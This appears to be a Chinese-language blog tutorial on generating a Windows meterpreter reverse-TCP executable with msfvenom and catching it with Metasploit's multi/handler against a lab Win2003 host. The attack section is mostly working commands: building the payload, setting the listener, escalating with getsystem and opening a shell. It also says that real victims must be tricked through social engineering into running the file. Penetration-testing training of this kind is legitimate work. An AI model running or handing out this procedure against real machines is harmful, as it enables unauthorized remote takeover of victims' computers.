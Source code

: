 
# 0x01 msfvenom 命令简介
msfvenom是payload产生器，也是shellcode代码生成器<br />Payload，中文“有效载荷”，指成功exploit之后，真正在目标系统执行的代码或指令。<br />Shellcode，简单翻译“shell代码”，是Payload的一种，由于其建立正向/反向shell而得名

整个字节流一般包含两个部分：

1. 一个包含部分代码的字节序列，被送入目标计算机执行，辅助攻击机获得控制权，比如打开目标计算机上的端口或者建立一个通信信道。
2. 一个用于实现在目标主机上运行某个应用程序如cmd或者计算器（常用于poc--概念验证）等。

一个攻击代码发送的字节序列往往同时包含payload和shellcode代码。


# 0x02 msfvenom 命令
1、生成可执行文件类型的payload
```
root@kali222:~# msfvenom    ---查看选项参数
Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
......此处省略
```

```
root@kali222:~# msfvenom -l payloads  --查看所有的payload

Framework Payloads (546 total) [--payload <value>]


    Name                                                Description
    ----                                                -----------
    aix/ppc/shell_bind_tcp                              Listen for a connection and spawn a command shell
    aix/ppc/shell_find_port                             Spawn a shell on an established connection
    aix/ppc/shell_interact                              Simply execve /bin/sh
......此处省略
```


# 0x03 利用实例

## 环境准备
win2003（192.168.1.64）作为靶机<br />kali（192.168.1.149）作为攻击机。

反弹型payload的使用：kali上侦听payload的运行，通过win2003上的payload的运行，反弹到kali.


## 实例

1. 在kali根目录生成test.exe文件
```
root@kali222:~#  msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.149   lport=12345 -f exe -o /root/test.exe
```
<br />![](https://img-blog.csdnimg.cn/20200415133330504.png#crop=0&crop=0&crop=1&crop=1&id=hxHuW&originHeight=163&originWidth=570&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

2. 将该test.exe文件复制到win2003中并运行（实际环境里面需要通过社工的方法让win2003运行）<br />![](https://img-blog.csdnimg.cn/20200415133744329.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=i7ROO&originHeight=224&originWidth=341&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

3. 启动msfconsole，设置监听
```
root@kali222:~# service postgresql restart
root@kali222:~# msfdb init
root@kali222:~# msfconsole
```
<br />![](https://img-blog.csdnimg.cn/20200415134001539.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=WOkGv&originHeight=457&originWidth=608&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

4. 打开PAYLOAD利用模块
```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp  --设置反弹PAYLOAD，和 msfvenom 中的命令保持一致
msf5 exploit(multi/handler) > set LHOST 192.168.1.149   --设置kali的ip
msf5 exploit(multi/handler) > set LPORT 12345  --设置kali的port ,需要与生成payload命令中的端口号一致
msf5 exploit(multi/handler) > show options
```
<br />![](https://img-blog.csdnimg.cn/2020041513425944.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=dWvuN&originHeight=435&originWidth=606&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

5. 等待远程的payload先运行再执行exploit
```
msf5 exploit(multi/handler) > exploit -----在执行这步之前，win2003上的test.exe需要确保运行了
meterpreter > sysinfo   ---查看目标主机信息
```
<br />![](https://img-blog.csdnimg.cn/20200415134558855.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=l7yaZ&originHeight=296&originWidth=599&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

6. 提升权限
```
meterpreter > use priv  ---提升特权
meterpreter > getsystem  ---取得系统级权限
```
<br />![](https://img-blog.csdnimg.cn/20200415134705559.png#crop=0&crop=0&crop=1&crop=1&id=pggqW&originHeight=111&originWidth=603&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

7. 进行shell
```
meterpreter > shell
```
<br />![](https://img-blog.csdnimg.cn/20200415134817500.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=C5O19&originHeight=254&originWidth=612&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
发现成功控制win2003主机
